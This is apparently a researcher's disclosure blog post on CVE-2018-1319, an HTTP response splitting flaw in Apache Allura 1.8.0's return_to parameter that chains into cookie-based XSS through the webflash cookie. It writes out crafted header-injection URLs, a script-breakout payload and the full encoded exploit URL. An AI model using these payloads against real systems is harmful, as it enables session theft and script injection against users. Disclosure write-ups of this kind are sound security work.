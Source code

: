 ```yaml
---
layout: post
title:  "XSS via HTTP response splitting in Apache Allura 1.8.0 (CVE-2018-1319)"
date:   2020-02-09 09:00:00 +0700
permalink: /2020/02/09/xss-via-http-response-splitting-in-apache-allura-1.8.0/
---
```


## Timeline
- 25 Feb 2018: Contacted vendor, CVE ID requested
- 15 Mar 2018: <a target="_blank" href="https://nvd.nist.gov/vuln/detail/CVE-2018-1319">CVE-2018-1319</a> assigned
- 09 Feb 2020: This post is published

<br>
<hr>
## Introduction
While looking for Bitbucket alternatives, I came across the Apache Allura project. Their <a href="https://allura.apache.org/" target="_blank">official documentation</a> describes it as:

> an open source implementation of a software forge, a web site that manages source code repositories, bug reports, discussions, wiki pages, blogs, and more for any number of individual projects.

Getting Allura up and running was easy since the project is <a href="https://forge-allura.apache.org/docs/getting_started/installation.html" target="_blank">very well documented</a>. This allowed me to quickly try things with their code. Running ZAP against my local instance took no time, and it reported that it was able to split HTTP responses by using `%0D%0A` in the HTTP GET parameter `return_to`, in the authentication redirection URL `/auth/?return_to=/`. Typically, this "return to" functionality is used to redirect unauthenticated users to a particular resource once they authenticate. So when attempting to access a protected resource without a valid session, Allura will:

1. Realize that the user is not authenticated
2. Take the user to the login page while using the `return_to` parameter to
   remember what URL was requested first
3. If the user authenticates successfully, Allura redirects the browser to
   whatever `return_to` pointed to, by using the `Location` header

<br>
<hr>
## Exploiting
To get an arbitrary header back from Allura 1.8.0 you must:
1. Create a crafted URL such as `/auth/?return_to=/%0D%0AFoo:%20Bar`
2. Visit such URL
3. Successfully log in
<br>

When dealing with HTTP response splitting, an easy way to argument why this should be addressed is the fact that attackers could redirect victims to a phishing website by using the ``Location`` header. In this hypothetical case, the crafted URL would look like this:
<br>

`/auth/?return_to=/%0D%0ALocation:%20https://example.com`
<br>

However, the normal functionality of Allura 1.8.0 is to already construct a legitimate `Location` header, so injecting a new one will result in the HTTP response having two of them, and modern web browsers will refuse to process such responses.
<br>

Another attack vector, which led to the creation of <a target="_blank" href="https://nvd.nist.gov/vuln/detail/CVE-2018-1319">CVE-2018-1319</a>, is to find vulnerabilities in the code that handles data coming from the HTTP headers, such as cookie-handling code. To set an arbitrary cookie, the URL would look like this:

`/auth/?return_to=/%0D%0ASet-Cookie:%20Foo%3DBar`
<br>

Allura uses the <a href="https://pypi.org/project/WebFlash/#history">WebFlash</a> component to display feedback messages whenever certain actions are performed by an authenticated user (e.g. in the pages under `/auth/user_info/contacts/`). These messages are communicated to the front-end via the `webflash` cookie. For example, editing your profile will set the following cookie:

{% highlight bash %}
webflash=%7B
  %22status%22%3A%20%22ok%22%2C%20
  %22message%22%3A%20%22Your%20personal%20data%20was%20successfully%20updated%21%22
%7D;
{% endhighlight %}

Whose URL-decoded value is:
{% highlight javascript %}
webflash={
  "status": "ok",
  "message": "Your personal data was successfully updated!"
};
{% endhighlight %}

Which generates the following HTML code:
{% highlight html %}
<script type="text/javascript">
  $('#messages').notify('Your personal data was successfully updated!', {
    status: 'ok'
  });
</script>
{% endhighlight %}

And shows the following flash message in the web UI:
<br>
<figure>
<img width="66%" height="66%" src="/assets/posts/2020/02/09/webflash.png" />
<figcaption>WebFlash displaying a success message</figcaption>
</figure>

This means that whatever is in the `webflash` cookie will be picked up by the code generating these messages. To trigger XSS here, the paylaod for the cookie would look like this:
{% highlight bash %}
{"status":"a'})</script><script>alert(document.cookie)//","message":"xss"}
{% endhighlight %}

Notice how the `status` attribute contains the JavaScript payload up to `//`. This will make the computed HTML page looke like this:
{% highlight html %}
<script type="text/javascript">
  $('#messages').notify('xss', {
    status: 'a'
  })
</script>
<script>
  alert(document.cookie)//'});
</script>
{% endhighlight %}

Assembling everything together, the crafted URL would contain the URL-encoded payload (twice), and would look like this:
{% highlight bash %}
/auth/?return_to=/auth/user_info/contacts/%0D%0A
  Set-Cookie:%20webflash%3D%257B
    %2522status%2522%253A%2522a%2527%257D)
    %253C%252Fscript%253E%253Cscript%253Ealert(document.cookie)
    %252F%252F%2522%252C%2522message%2522%253A%2522xss%2522%257D
{% endhighlight %}

<br>
<hr>
## Proof of concept
<br>
<figure>
<img src="/assets/posts/2020/02/09/allura_xss.gif" />
<figcaption>From HTTP response splitting to cookie-based XSS</figcaption>
<figure>

